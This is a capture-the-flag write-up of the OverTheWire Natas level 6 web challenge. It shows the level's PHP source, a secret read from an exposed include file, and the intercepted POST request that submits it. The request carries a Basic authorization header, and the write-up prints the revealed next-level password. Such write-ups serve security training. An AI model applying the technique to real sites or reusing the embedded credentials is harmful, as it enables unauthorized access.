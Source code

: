 # Natas 6
The natas 6 is the first of the series that gives us the source code:

```php
<html>  
<head>  
<!-- This stuff in the header has nothing to do with the level -->  
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">  
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />  
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />  
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>  
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>  
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>  
<script>var wechallinfo = { "level": "natas6", "pass": "<censored>" };</script></head>  
<body>  
<h1>natas6</h1>  
<div id="content">  
  
<?  
  
include "includes/secret.inc";  
  
    if(array_key_exists("submit", $_POST)) {  
        if($secret == $_POST['secret']) {  
        print "Access granted. The password for natas7 is <censored>";  
    } else {  
        print "Wrong secret";  
    }  
    }  
?>  
  
<form method=post>  
Input secret: <input name=secret><br>  
<input type=submit name=submit>  
</form>  
  
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>  
</div>  
</body>  
</html>
```

The page ask us for a secret. 
The source code include the code contained in "/includes/secret". if you visit that page  you can see that there it is created the variable $secret.

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```


So as before i intercepted the post request using burp and modify it.
The final request to obtain the password is:
```http
POST / HTTP/1.1
Host: natas6.natas.labs.overthewire.org
Content-Length: 27
Cache-Control: max-age=0
Authorization: Basic bmF0YXM2OjBSb0p3SGRTS1dGVFlSNVd1aUFld2F1U3VOYUJYbmVk
Accept-Language: en-US,en;q=0.9
Origin: http://natas6.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://natas6.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

secret=FOEIUWGHFEEUHOFUOIU&submit=submit
```

and the site answers: 
*Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS*
